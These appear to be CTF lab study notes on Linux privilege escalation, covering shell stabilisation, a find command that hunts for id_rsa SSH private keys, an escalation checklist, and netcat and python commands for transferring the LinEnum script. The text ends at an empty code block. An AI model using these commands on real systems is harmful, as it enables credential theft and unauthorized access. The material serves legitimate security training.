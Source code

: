 # Days
|[1](#a-christmas-crisis)|[2](#the-elf-strikes-back!)|[3](#christmas-chaos)|[4](#santa's-watching)|[5](#someone-stole-santa's-gift-list!)|
|:-:|:-:|:-:|:-:|:-:|:-:|
|[6](#be-careful-with-what-you-wish-on-a-christmas-night)|[7](#the-grinch-really-did-steal-christmas)|[8](#what's-under-the-christmas-tree?)|[9](#anyone-can-be-santa)|[10](#don't-be-so-selfish)|
|[11](#the-rogue-gnome)|[12](#ready,-set,-elf)|[13](#coal-for-christmas)|[14](#where's-rudolph?)|[15](#there's-a-python-in-my-stocking!)|
|[16](#help!-where-is-santa?)|[17](#reverseelfneering)|[18](#the-bits-of-christmas)|[19](#the-naughty-or-nice-list)|[20](#powershelf-to-the-rescue)|
|[21](#time-for-some-elforensics)|[22](#elf-mceager-becomes-cyberelf)|[23](#thegGrinch-strikes-again!)|[24](#the-trialbBefore-christmas)|

# The Rogue Gnome
## Topic and concepts
Privilege escalation, Directions, Reinforcing the breach, Enumerations with 
nmap, Checklist, SUID, GTFOBins, Enumeration scripts, Covering 
tracks.<br>
* Levels of permissions
* Horizontal privilege escalation
* Vertical privilege escalation
* Instability
* DVWA (Damn Vulnerable Web Application)
* Command injection
* Difference between `/bin/bash` and `/bin/sh`
* LinEnum
* Enumeration possibilities of LinEnum
* Running an enumerating script
## Walkthrough and commands
Make shell interactive:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Displqy current shell:
```
echo $0
```
Find file containing ssh keys:
```
find / -name id_rsa 2> /dev/null
```
Priv Esc checklist:
```
1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions
```
Directory with sudoers:
<br>`/etc/sudoer`<br>
Turn the machine into a web server:
```
python3 -m http.server 8080
```
Listen to incoming files:
```
nc -l -p 1337 > LinEnum.sh
```
Send a file to vlnerable instance:
```
```